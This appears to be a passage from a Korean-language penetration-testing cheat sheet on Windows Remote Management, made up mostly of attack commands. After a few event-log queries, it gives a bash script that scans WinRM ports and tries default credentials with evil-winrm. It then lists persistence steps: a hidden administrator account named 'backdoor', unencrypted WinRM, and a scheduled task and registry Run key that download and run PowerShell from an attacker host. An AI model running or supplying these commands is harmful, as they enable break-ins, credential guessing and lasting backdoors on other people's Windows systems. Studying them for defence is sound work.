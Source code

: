 ```bash
# WinRM 관련 이벤트 로그 확인
Get-WinEvent -LogName "Microsoft-Windows-WinRM/Operational" | Select-Object -First 20

# PowerShell 로그 확인
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104}

# 보안 로그에서 로그온 이벤트 확인
Get-WinEvent -LogName Security | Where-Object {$_.Id -eq 4624} | Select-Object -First 10
```

### 📊 WinRM 정보 수집 자동화

```bash
#!/bin/bash
IP=$1

echo "=== WinRM Information Gathering for $IP ==="

# 기본 정보 수집
echo "[+] WinRM Service Information:"
nmap -sV -p 5985,5986 $IP

# WinRM 응답 확인
echo "[+] WinRM Response Check:"
curl -s http://$IP:5985/wsman 2>/dev/null && echo "HTTP WinRM Accessible"
curl -s -k https://$IP:5986/wsman 2>/dev/null && echo "HTTPS WinRM Accessible"

# 기본 자격증명 테스트
echo "[+] Testing Default Credentials:"
credentials=("administrator:password" "admin:admin" "administrator:" "guest:")
for cred in "${credentials[@]}"; do
    user=$(echo $cred | cut -d: -f1)
    pass=$(echo $cred | cut -d: -f2)
    echo "Testing $user:$pass"
    timeout 15 evil-winrm -i $IP -u $user -p "$pass" -e "whoami" 2>/dev/null && echo "SUCCESS: $user:$pass"
done

echo "=== WinRM Scan Complete ==="
```

### 💾 지속성 및 백도어 (접근 성공 후)

```bash
# 새 로컬 사용자 생성
net user backdoor Password123! /add
net localgroup administrators backdoor /add
net localgroup "Remote Management Users" backdoor /add

# WinRM 서비스 활성화 (비활성화된 경우)
Enable-PSRemoting -Force
Set-Item WSMan:\localhost\Service\AllowUnencrypted $true

# 스케줄된 작업으로 지속성
schtasks /create /tn "System Update" /tr "powershell.exe -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).downloadString('http://{ATTACKER_IP}/persistence.ps1')\"" /sc daily /st 12:00

# 레지스트리 Run 키
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v "WindowsUpdate" /t REG_SZ /d "powershell.exe -WindowStyle Hidden -Command \"IEX(New-Object Net.WebClient).downloadString('http://{ATTACKER_IP}/backdoor.ps1')\""
```

---